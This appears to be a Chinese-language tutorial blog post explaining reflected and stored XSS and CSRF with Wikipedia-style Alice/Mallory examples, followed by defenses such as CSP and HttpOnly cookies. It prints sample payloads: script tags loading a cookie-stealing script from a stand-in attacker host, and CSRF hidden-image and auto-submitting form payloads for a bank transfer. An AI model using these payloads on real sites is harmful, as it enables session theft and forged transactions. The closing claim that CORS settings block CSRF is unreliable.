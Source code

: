 ```yaml
---
layout: post
title: xss and csrf
---
```


# xss

wiki里讲了两个xss攻击的例子. 非持续性xss(Non-persistent)，也称为Reflected xss.(来自陌生人的) 与 持续性(Persistent)攻击。

## Non-persistent

Alice 经常去一个Blob的网站，且Blob的网站允许Alice使用username/password登录和存储一些敏感信息，
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://blobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://blobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些还可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


## Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

当其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


## 结语

其实xss的种类有很多种，其中原理几乎全部是想尽办法将恶意脚本注入页面内，并且执行攻击者的脚本。
上面的xss防范方法对于很多情况下都适用。


# csrf

CSRF意思为跨站请求伪造，也就是让客户自己不知情的情况下发起一个恶意请求，网站服务器接收到请求后以为是用户自己发出的执行一些非常规性操作。 CSRF并不能偷取用户数据，但能以用户的身份发起恶意请求。

攻击流程大致如下:

假设Alice向Blob转账一笔钱的请求为`GET`请求，url为`GET http://bank.com/transfer.do?acct=BLOB&amount=100 HTTP/1.1
`

Mallory发现了back.com网站存在CSRF漏洞(没有开启同源策略)，于是构造了一条向自己转账的链接`http://bank.com/transfer.do?acct=Mallory&amount=100000`

接着Mallory可以给Alice发一封HTML邮件，例如一个可点击的链接`<a href="http://bank.com/transfer.do?acct=Mallory&amount=100000">View my Pictures!</a>` 但是可能还不够好，因为该请求不会自动执行，此时也可以用一张0*0大小的图片替代
`<img src="http://bank.com/transfer.do?acct=Mallory&amount=100000" width="0" height="0" border="0">`
这样当Alice打开这封邮件时便会自动发起这条GET请求，达到攻击的目的。

如果转账的请求为`POST`, 例如

~~~
POST http://bank.com/transfer.do HTTP/1.1

acct=BLOB&amount=100
~~~

此时便可以构造一个特殊的邮件内容下

~~~
<body onload="document.forms[0].submit()">
<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="Mallory"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
~~~

这样当Alice打开邮件后便会发起这条POST请求，以此来达到攻击的目的。

类似的其他HTTP方法，`PUT` 和 `DELETE` 原理类似，可以手动通过`XMLHttpRequest`的方式来发起请求。 不过CSRF目前基本上可用之处已经很少见了，只要浏览器和web server开启不允许跨域便可以组织 CSRF 型攻击方式。

所以，当心你的 `Access-Control-Allow-Origin: *`
